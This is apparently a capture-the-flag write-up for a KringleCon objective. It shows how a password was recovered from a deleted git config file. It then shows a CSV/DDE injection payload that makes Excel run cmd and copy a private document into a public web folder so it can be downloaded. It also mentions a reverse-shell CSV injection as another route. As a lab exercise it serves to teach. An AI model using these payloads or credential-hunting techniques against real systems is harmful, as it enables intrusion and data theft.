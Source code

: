 ## Objective 7

> Santa uses an Elf Resources website to look for talented information security professionals. [Gain access to the website](https://careers.kringlecastle.com/) and fetch the document C:\candidate_evaluation.docx. Which terrorist organization is secretly supported by the job applicant whose name begins with "K"? 
> For hints on achieving this objective, please visit Sparkle Redberry and help her with the Dev Ops Fail Cranberry Pi terminal challenge.

### Challenge


> Coalbox again, and I've got one more ask.
> Sparkle Q. Redberry has fumbled a task.
> Git pull and merging, she did all the day;
> With all this gitting, some creds got away.
> Urging - I scolded, "Don't put creds in git!"
> She said, "Don't worry - you're having a fit.
> If I did drop them then surely I could,
> Upload some new code done up as one should."

> Find Sparkle's password, then run the runtoanswer tool.

For this challenge you will need:

- Search GIT for passwords: https://en.internetwache.org/dont-publicly-expose-git-or-how-we-downloaded-your-websites-sourcecode-an-analysis-of-alexas-1m-28-07-2015/
- GIT cheat sheet: https://gist.github.com/hofmannsven/6814451


The easiest thing to do is to check the git log for deletions:

```
elf@69b8d8354d79:~$ ls
kcconfmgmt  runtoanswer
elf@69b8d8354d79:~$ cd kcconfmgmt/
elf@69b8d8354d79:~/kcconfmgmt$ git log --diff-filter=D --summary
commit 60a2ffea7520ee980a5fc60177ff4d0633f2516b
Author: Sparkle Redberry <sredberry@kringlecon.com>
Date:   Thu Nov 8 21:11:03 2018 -0500

    Per @tcoalbox admonishment, removed username/password from config.js, default settings in conf
ig.js.def need to be updated before use

 delete mode 100644 server/config/config.js
```

Nice, check the log again for an earlier commit:
```
commit 60a2ffea7520ee980a5fc60177ff4d0633f2516b
Author: Sparkle Redberry <sredberry@kringlecon.com>
Date:   Thu Nov 8 21:11:03 2018 -0500

    Per @tcoalbox admonishment, removed username/password from config.js, default settings in conf
ig.js.def need to be updated before use

commit b2376f4a93ca1889ba7d947c2d14be9a5d138802
Author: Sparkle Redberry <sredberry@kringlecon.com>
Date:   Thu Nov 8 13:25:32 2018 -0500
```

then go back to `b2376f4a93ca1889ba7d947c2d14be9a5d138802` and see the deleted file:
```
elf@69b8d8354d79:~/kcconfmgmt$ git checkout b2376f4a93ca1889ba7d947c2d14be9a5d138802
Note: checking out 'b2376f4a93ca1889ba7d947c2d14be9a5d138802'.

You are in 'detached HEAD' state. You can look around, make experimental
changes and commit them, and you can discard any commits you make in this
state without impacting any branches by performing another checkout.

If you want to create a new branch to retain commits you create, you may
do so (now or later) by using -b with the checkout command again. Example:

  git checkout -b <new-branch-name>

HEAD is now at b2376f4... Add passport module

elf@69b8d8354d79:~/kcconfmgmt$ cat server/config/config.js
// Database URL
module.exports = {
    'url' : 'mongodb://sredberry:twinkletwinkletwinkle@127.0.0.1:27017/node-api'
};
```

Got it!
```
elf@69b8d8354d79:~/kcconfmgmt$ runtoanswer 
Loading, please wait......



Enter Sparkle Redberry's password: twinkletwinkletwinkle


This ain't "I told you so" time, but it's true:
I shake my head at the goofs we go through.
Everyone knows that the gits aren't the place;
Store your credentials in some safer space.

Congratulations!
```



**Hint**: CSV Injection: https://www.owasp.org/index.php/CSV_Injection
**Hint**: CSV DDE Injection talk: https://www.youtube.com/watch?v=Z3qpcKVv2Bg


### Objective completion

The target site consists in a career application form, try to register yourself:


> Thank you for taking the time to upload your information to our elf resources shared workshop station! Our elf resources will review your CSV work history within the next few minutes to see if you qualify to join our elite team of InfoSec Elves. If you are accepted, you will be added to our secret list of potential new elf hires located in C:\candidate_evaluation.docx

The network call is straightforward:
```
https://careers.kringlecastle.com/api/upload/application
firstname: some
lastname: one
phone: 234534534534
email: some@one.it
csv: (binary)
```

Ok, so we don't have direct access to the target file, but we know its full path (`C:\candidate_evaluation.docx`) and we know that an elf will open our CSV.

We could implement a reverse shell CSV injection or a remote file upload, but maybe there's something simpler... Let's try to mess up the URL as we did in Obj. 2. https://careers.kringlecastle.com/api/something will return a nice 404 page:
```
404 Error!

Publicly accessible file served from: 
C:\careerportal\resources\public\ not found......



Try: 
https://careers.kringlecastle.com/public/'file name you are looking for'
```

So there's a direct mapping from `https://careers.kringlecastle.com/public/` and the directory `C:\careerportal\resources\public\`.
We need to craft a CSV injection that copies `candidate_evaluation.docx` in the right place, send it and wait a few minutes for an Elf to open it (and ignores the warning, we hope!).


The CSV is quite simple, it contains the injection only (see `inject.csv`):
```
=cmd|' /C copy C:\candidate_evaluation.docx C:\careerportal\resources\public'!A1
```

*Note*: To be sure you can replicate the directory structure on your testing machine, create a fake docx file and import the csv into excel: the file should be copied instantly.

Time to send our crafted CSV with the career application form, wait a few minutes then try https://careers.kringlecastle.com/public/candidate_evaluation.docx: download it!

The bad guy's name is quite "known", read through the file to get the name of the terrorist organization.





**Objective answer**: `Fancy Beaver`

